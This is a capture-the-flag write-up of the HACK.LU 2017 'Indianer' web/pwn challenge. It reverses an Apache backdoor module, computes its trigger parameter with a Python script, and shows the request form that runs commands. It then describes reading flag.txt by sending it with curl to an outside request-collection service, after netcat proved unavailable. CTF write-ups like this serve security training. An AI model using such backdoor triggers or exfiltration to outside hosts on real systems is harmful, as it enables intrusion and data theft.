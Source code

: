 # [HACK.LU-CTF-2017] Indianer (Web, Pwn)
##### **Description :** Try to enter this Tipi
#
When we click on the given link, we land on a default installation page of an Apache/2.4.7

The download link gives us a Apache2 module binary named **backdoor.so**

We reverse the binary and stumble across the request processing function cleverly named **strlen()**



After studying the request processing algorithm, we know that our request should look like this :
```
GET /index.html?[needle_value]=[command]
```

We also know how the needles are generated, let's use a quick python script to compute the first value :
```
constante_6e = 0x6e
needle = [0]*256

for i in range(0,512,9) :
        needle[i % 35] = (((constante_6e & 1) + i) % 24) + 97
    	needle[35] = 0
        
print "".join(chr(x) for x in needle).strip('\0')[:34]
```
Which spits us this value : **dpdpdpamamamamajvjvjvjvgsgsgsgsgpd**

We can now grab flag.txt by sending it's content to a requestb.in with curl (netcat wasn't available to pop a shell :)


Gotcha!
